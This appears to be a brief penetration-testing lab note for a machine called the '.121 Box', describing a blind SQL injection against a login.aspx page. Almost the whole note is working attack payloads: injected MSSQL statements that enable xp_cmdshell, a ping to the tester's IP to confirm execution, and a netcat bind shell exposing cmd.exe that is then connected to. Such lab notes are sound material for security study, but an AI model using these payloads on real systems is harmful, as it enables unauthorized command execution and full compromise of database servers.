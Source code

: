 # .121 Box
- Login page at login.aspx
- Blind sql injection with the following commands 
```
' EXECUTE sp_configure 'show advanced options', 1; --//
```
```
' RECONFIGURE; --//
```
```
' EXECUTE sp_configure 'xp_cmdshell', 1; --//
```
```
' RECONFIGURE; --//
```
```
' EXECUTE xp_cmdshell 'ping 192.168.45.170'; --
```
- Read the traffic to make sure it works with the following command before the ping command 
```
sudo tcpdump -i tun0 icmp
```
- Start a listener with 
```
' EXECUTE xp_cmdshell 'C:\temp\nc.exe -lvp 8888 -e cmd.exe'; --
```
- Connect with 
```
nc <IP> 8888
```